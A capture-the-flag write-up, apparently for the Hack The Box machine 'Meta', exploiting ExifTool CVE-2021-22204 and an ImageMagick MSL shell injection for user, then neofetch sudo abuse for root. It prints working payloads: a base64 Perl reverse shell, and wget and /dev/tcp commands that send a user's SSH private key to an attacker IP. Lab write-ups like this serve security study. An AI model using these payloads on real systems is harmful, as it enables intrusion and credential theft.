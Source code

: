 # META

![Meta.png](META/Meta.png)

**January 31, 2022**

Nmap scan to discover open ports and service versions.

```c
Not shown: 65359 closed tcp ports (conn-refused), 174 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 434.77 second
```

Names collected from the page.

Judy E. - CEO

Sarah W. - Web Designer

Thomas S. - PHP Developer ———-

Subdomains scan:

```c
Found: dev01.artcorp.htb (Status: 200) [Size: 247]
```

![Untitled](META/Untitled.png)

Exiftool vulnerability: To exploit just create a file called payload and put your command inside the template:

```c

sudo apt install djvulibre-bin
Inside the payload file -> (metadata "\c${system('whoami')};")
Compress it to bzz 
bzz payload payload.bzz
Make the djvu file
djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz

```

Create a config file:

```c
%Image::ExifTool::UserDefined = (
    # All EXIF tags are added to the Main table, and WriteGroup is used to
    # specify where the tag is written (default is ExifIFD if not specified):
    'Image::ExifTool::Exif::Main' => {
        # Example 1.  EXIF:NewEXIFTag
        0xc51b => {
            Name => 'HasselbladExif',
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
        # add more user-defined EXIF tags here...
    },
);
1; #end%
```

Compress with exiftool now:

```c
exiftool -config configfile '-HasselbladExif<=exploit.djvu' hacker.jpg
```

Exploit working:

![Untitled](META/Untitled%201.png)

User:

![Untitled](META/Untitled%202.png)

After many hours trying get the reverse shell, I try use a perl reverse shell encoded in base64.

```c
use Socket;
socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));
if(connect(S,sockaddr_in(3301,inet_aton('10.10.14.60')))){open(STDIN,'>&S');
open(STDOUT,'>&S');
open(STDERR,'>&S');
exec('/bin/sh -i');};
))};")
```

Payload

```c
(metadata "\c${use MIME::Base64;eval(decode_base64('dXNlIFNvY2tldDtzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCd0Y3AnKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKDMzMDEsaW5ldF9hdG9uKCcxMC4xMC4xNC42MCcpKSkpe29wZW4oU1RESU4sJz4mUycpO29wZW4oU1RET1VULCc+JlMnKTtvcGVuKFNUREVSUiwnPiZTJyk7ZXhlYygnL2Jpbi9zaCAtaScpO307'))};")
```

[https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/)

Reading process with pspy64

![Untitled](META/Untitled%203.png)

/usr/local/bin/convert_images.sh

![Untitled](META/Untitled%204.png)

The running script is a ImageMagick in the version 7.0.10

![Untitled](META/Untitled%205.png)

This version has an exploit of shell injection using a svg file.

[ImageMagick - Shell injection via PDF password](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html)

The command was executed:

![Untitled](META/Untitled%206.png)

```c
<image authenticate='ff" $(wget 10.10.14.60/`whoami`);"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

![Untitled](META/Untitled%207.png)

Some ways of dump id_rsa on the machine: line per line using wget

```c
<image authenticate='ff" $(wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 1p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 2p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 3p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 4p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 5p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 6p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 7p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 8p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 9p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 10p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 11p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 12p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 13p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 14p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 15p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 16p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 17p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 18p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 19p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 20p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 21p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 22p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 23p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 24p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 25p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 26p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 27p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 28p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 29p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 30p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 31p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 32p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 33p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 34p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 35p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 36p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 37p | base64 | tr -d "\n"`);"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

Using reverse connection:

```c
<image authenticate='ff" $(bash -c "cat /home/thomas/.ssh/id_rsa > /dev/tcp/10.10.14.60/80\");"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

Or write SSH “id_rsa” in /dev/shm:  

![Untitled](META/Untitled%208.png)

To root we can use the neofecth command:

![Untitled](META/Untitled%209.png)

We can abuse of this env configuration 

![Untitled](META/Untitled%2010.png)

Export the config to thomas:

![Untitled](META/Untitled%2011.png)

Add some code to config.cnf and execute sudo NOPASSWD command:

![Untitled](META/Untitled%2012.png)

Root with success!

![Untitled](META/Untitled%2013.png)